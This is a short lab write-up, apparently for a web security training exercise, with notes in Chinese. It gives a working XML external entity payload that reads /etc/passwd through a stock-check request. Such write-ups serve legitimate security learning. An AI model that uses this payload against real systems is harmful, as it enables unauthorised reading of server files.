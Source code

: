 # Lab: Exploiting XXE using external entities to retrieve files

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

To solve the lab, inject an XML external entity to retrieve the contents of the /etc/passwd file. 

## XXE
* 題目說 stock 的地方有 XXE 的問題，直接帶入下面的 payload 就可以過了
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE r [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<stockCheck>
<productId>&xxe;</productId><storeId>&xxe;</storeId></stockCheck>
```
* 記得要用 `&xxe;` 取代掉 productId 跟 storeId 的 value